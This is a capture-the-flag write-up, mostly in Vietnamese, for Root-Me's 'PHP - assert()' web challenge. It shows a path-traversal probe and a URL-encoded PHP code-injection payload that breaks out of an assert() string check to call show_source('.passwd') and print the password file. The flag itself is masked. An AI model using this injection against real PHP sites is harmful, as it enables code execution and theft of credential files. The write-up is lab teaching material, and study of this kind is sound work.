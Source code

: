 # WRITE UP

**Challenge:** [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

Thử fuzz với payload: <http://challenge01.root-me.org/web-serveur/ch47/?page=../>

<img src="./media/image1.png" style="width:6.5in;height:0.81111in" alt="Graphical user interface, application Description automatically generated" />

Website sử dụng **assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");** để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với **die()** và để hiển thị source bằng hàm **show\_source()**:

**and die(show\_source('.passwd')) or '**

Lúc này payload có dạng:

assert("strpos(' ' **and die(show\_source('.passwd')) or** ' ', '..') === false") **or die("Detected hacking attempt!");**

**Payload:** <http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27>

<img src="./media/image2.png" style="width:6.5in;height:1.23125in" alt="Graphical user interface, text, application Description automatically generated" />

- Flag: "****************************"
